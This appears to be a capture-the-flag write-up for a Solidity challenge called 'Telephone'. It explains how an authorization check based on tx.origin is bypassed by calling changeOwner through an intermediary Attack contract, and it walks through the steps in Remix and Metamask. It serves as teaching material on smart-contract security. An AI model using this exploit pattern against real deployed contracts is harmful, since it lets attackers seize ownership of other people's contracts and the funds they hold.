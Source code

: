 **Description**
The goal of this challenge is to claim the ownershio of the `Telephone` contract.


* Telephone.sol
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

```

**Attack Vector**
The main issue is relying on `tx.origin == msg.sender` to implement authorization, as it can be bypassed easily by calling it from another contract.

**Attack Scenario**
* Attack.sol
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// importing the Telephone contract so we can use its functions
import "./Telephone.sol";

contract Attack {
    // Creating an instance of the contract
    Telephone Tel;
    // Constructor takes an address as argument and passes it to the instance.
    // the instance then takes the malicious address se we can access the Telephone Contract's functions.
    constructor(address _Add)  {
        Tel = Telephone(_Add);
    }
    // changing the owner address to our malicious address.
    function changeowner(address _Add) public {
        Tel.changeOwner(_Add);
    }
}
```

- First, we can check the current contract owner by using this command in the console: `await contract.owner()`
![](https://i.imgur.com/jXwSC46.png)

- now that we know the current owner, we should deploy the attack contract on Remix using injected provider to use Metamask.
![](https://i.imgur.com/d7Bi4Kc.png)

- After we successfully connect Metamask and Remix, it's time now to deploy the Attack contract using the Telephone contract Address as input in the Deploy field. we can get the address using the following command: `await contract.address`
![](https://i.imgur.com/IED6JRa.png)

- now we can go to Metamask and and copy our Address, feed it to `changeOwner` and validate the transaction.
![](https://i.imgur.com/Ub3rXL8.png)

- By entering `await contract.owner` again, we can see that our Address is the new owner of the contract.

![](https://i.imgur.com/FWd4Hd5.png)